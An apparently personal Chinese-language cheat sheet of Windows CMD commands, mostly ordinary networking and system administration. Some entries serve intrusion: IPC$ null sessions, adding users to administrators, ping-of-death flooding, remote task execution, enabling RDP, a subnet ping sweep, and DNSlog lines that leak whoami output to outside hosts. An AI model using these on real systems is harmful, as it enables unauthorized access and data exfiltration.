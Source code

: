 # CMD 命令用法记录

---

# 网络常用
**ipconfig**
```cmd
ipconfig /all 显示完整配置信息
ipconfig /release 释放指定适配器的 IPv4 地址
ipconfig /release6 释放指定适配器的 IPv6 地址
ipconfig /renew 更新指定适配器的 IPv4 地址
ipconfig /renew6 更新指定适配器的 IPv6 地址
ipconfig /flushdns 清除 DNS 解析程序缓存
```

**netstat**
```cmd
netstat -a 查看开启了哪些端口，常用 netstat -an
netstat -n 查看端口的网络连接情况，常用 netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例:netstat -p tcq/ip 查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况
netstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名

netstat -bn 查看每个程序的连接
```

**ping**
```cmd
ping ip(或域名) 向对方主机发送默认大小为32字节的数据
ping -l[空格]数据包大小 ip
ping -n 发送数据次数 ip
ping -t ip 一直 ping。
ping -t -l 65500 ip 死亡之 ping(发送大于64K的文件并一直 ping 就成了死亡之 ping)
```

**tracert**
```cmd
-d                 不将地址解析成主机名。
-h maximum_hops    搜索目标的最大跃点数。
-j host-list       与主机列表一起的松散源路由(仅适用于 IPv4)。
-w timeout         等待每个回复的超时时间(以毫秒为单位)。
-R                 跟踪往返行程路径(仅适用于 IPv6)。
-S srcaddr         要使用的源地址(仅适用于 IPv6)。
-4                 强制使用 IPv4。
-6                 强制使用 IPv6。
```

**route**
```cmd
route print
route print 192.*
route add 0.0.0.0 mask 0.0.0.0 192.168.6.1 增加网关
route delete 0.0.0.0 mask 0.0.0.0 192.168.6.1 删除网关
route change 16.21.0.0 mask 255.255.0.0 16.28.0.25 将访问16.21.0.0 段的网关改为 0.25
```

**arp**
```cmd
arp -a      查看全部
arp -d ip   删除
```

**nslookup**
```cmd
nslookup domain [dns-server]            查询域名A记录
nslookup -qt=type domain [dns-server]   查询其他记录
    A 地址记录
    AAAA 地址记录
    AFSDB Andrew文件系统数据库服务器记录
    ATMA ATM地址记录
    CNAME 别名记录
    HINFO 硬件配置记录，包括 CPU、操作系统信息
    ISDN 域名对应的 ISDN 号码
    MB 存放指定邮箱的服务器
    MG 邮件组记录
    MINFO 邮件组和邮箱的信息记录
    MR 改名的邮箱记录
    MX 邮件服务器记录
    NS 名字服务器记录
    PTR 反向记录
    RP 负责人记录
    RT 路由穿透记录
    SRV TCP服务器信息记录
    TXT 域名对应的文本信息
    X25 域名对应的X.25地址记录
```

**net**
```cmd
net use ipipc$ " " /user:" " 建立 IPC 空链接
net use ipipc$ "密码" /user:"用户名" 建立 IPC 非空链接
net use h: ipc$ "密码" /user:"用户名" 直接登陆后映射对方 C: 到本地为 H:
net use h: ipc$ 登陆后映射对方 C: 到本地为 H:
net use ipipc$ /del 删除 IPC 链接
net use h: /del 删除映射对方到本地的为 H: 的映射
net user 用户名　密码　/add 建立用户
net user guest /active:yes 激活 guest 用户
net user 查看有哪些用户
net user 帐户名 查看帐户的属性
net localgroup administrators 用户名 /add 把"用户"添加到管理员中使其具有管理员权限
net start 查看开启了哪些服务
net start 服务名　开启服务；(如:net start telnet， net start schedule)
net stop 服务名 停止某服务
net time 目标ip 查看对方时间
net time 目标ip /set 设置本地计算机时间与"目标IP"主机的时间同步，加上参数 /yes 可取消确认
net view 查看本地局域网内开启了哪些共享
net view ip 查看对方局域网内开启了哪些共享
net config 显示系统网络设置
net logoff 断开连接的共享
net pause 服务名 暂停某服务
net send ip "文本信息" 向对方发信息
net ver 局域网内正在使用的网络连接类型和信息
net share 查看本地开启的共享
net share ipc$ 开启 ipc$ 共享
net share ipc$ /del 删除 ipc$ 共享
net share c$ /del 删除 C: 共享
net user guest 12345 用 guest 用户登陆后用将密码改为 12345
net password 密码 更改系统登陆密码
```

---

# 系统信息
`ver` windows版本

`msinfo32`  系统信息面板

`services.msc` 服务面板

`gpedit.msc` 组策略管理器

`regedit` 注册表

`finger username @host` 查看最近有哪些用户登陆

**slmgr.vbs**
```cmd
slmgr.vbs -dlv :显示详细的许可证信息
slmgr.vbs -dli :显示许可证信息
slmgr.vbs -xpr :当前许可证截止日期
slmgr.vbs -dti :显示安装ID 以进行脱机激
slmgr.vbs -ipk :(Product Key)安装产品密钥
slmgr.vbs -ato :激活Windows
slmgr.vbs -cpky :从注册表中清除产品密钥(防止泄露引起的攻击)
slmgr.vbs -ilc :(License file)安装许可证
slmgr.vbs -upk :卸载产品密钥
slmgr.vbs -skms :(name[ort] )批量授权
```

---

# 常用

**shutdown**
```cmd
shutdown -s -t 60 60秒后关机
shutdown -s -t 3600 1小时后关机
tsshutdn 60秒后关机
shutdown -s -f 强制关机
shutdown -s -t 时间
shutdown -a 取消 关机命令
```

**taskkill**
```cmd
taskkill /im 进程名称
taskkill /pid [进程码] -t(结束该进程) -f（强制结束该进程以及所有子进程）
```

**at**
```cmd
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数 /yes 则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
```

**[Schtasks.exe](https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks)**
```markdown
创建计划任务 "gametime"，在每月的第一个星期天运行“空当接龙”。

SCHTASKS /Create /SC MONTHLY /MO first /D SUN /TN gametime /TR c:\windows\system32\freecell

- /SC   schedule     指定计划频率。有效计划任务:  MINUTE、 HOURLY、DAILY、WEEKLY、MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE, ONEVENT.
- /MO   modifier     改进计划类型以允许更好地控制计划重复周期。有效值列于下面“修改者”部分中。
- /D    days         指定该周内运行任务的日期。有效值:MON、TUE、WED、THU、FRI、SAT、SUN和对 MONTHLY 计划的 1 - 31(某月中的日期)。通配符“*”指定所有日期。
- /TN   taskname     以路径\名称形式指定对此计划任务进行唯一标识的字符串。
- /TR   taskrun      指定在这个计划时间运行的程序的路径和文件名。例如: C:\windows\system32\calc.exe

```



**CMD开启rdp：**
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

**通过防火墙**
键入以下命令以通过Windows防火墙启用远程桌面，然后按Enter：
```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

**dnslog不只是可以ping，你还可以在里面带数据**

比如linux,
```
ping `whoami`.soeowh.dnslog.cn
```


windows下就是
```
ping %USERNAME%.xxxxx.ceye.io
```
这么搞，在真正无回显的情况下判断系统版本

CMD 扫描主机
```bash
# 探测一个C网段有多少台主机

for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
```

常见的代码指令

![](img/1.png)


### 常见提权

1. 查看目标服务器上的打的补丁，看看哪些可以使用poc打

